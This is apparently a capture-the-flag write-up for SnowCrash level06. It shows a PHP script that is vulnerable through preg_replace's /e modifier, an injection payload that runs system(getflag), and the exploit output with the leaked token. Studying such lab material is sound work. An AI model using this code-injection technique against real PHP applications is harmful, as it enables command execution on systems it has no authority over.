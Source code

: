 # Solution

So we loged in and in the home folder we directly see two file level06 which is a binary and level06.php which is the source code of that binary.ko

Here is the source code beautify:

```php
#!/usr/bin/php
<?php
function y($m)
{
    $m = preg_replace("/\./", " x ", $m);
    $m = preg_replace("/@/", " y", $m);
    return $m;
}
function x($y, $z)
{
    $a = file_get_contents($y);
    $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
    $a = preg_replace("/\[/", "(", $a);
    $a = preg_replace("/\]/", ")", $a);
    return $a;
}
$r = x($argv[1], $argv[2]);
print $r;

?>
```

The vulnerability is here **$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);** the /e is deprecated in php5.0,
this evaluate the php that you provide.

So now that we know that we need to create a file that will contains the first regexp match expresion wich start like this \[x something\]
this we just need to replace something with some php code that will call getflag

```sh
echo '[x {${system(getflag)}}]' > /tmp/input
```

The php code here as juste one tricky part which is the {${system()}} this is string interpolation meaning that the result of the code will be put in the string.
we need two {}, the outer {} is needed so that when we passed in the function y() it's properly interprated as one argument, also system require a string but we can let php do the interpretation of getflag as a string.


Now we execute the program **level06**:

```sh
./level06 /tmp/input
```

here is the result:

```sh
level06@SnowCrash:~$ echo '[x {${system(getflag)}}]'> /tmp/input
level06@SnowCrash:~$ ./level06 /tmp/input
PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub in /home/user/level06/level06.php(4) : regexp code on line 1
```
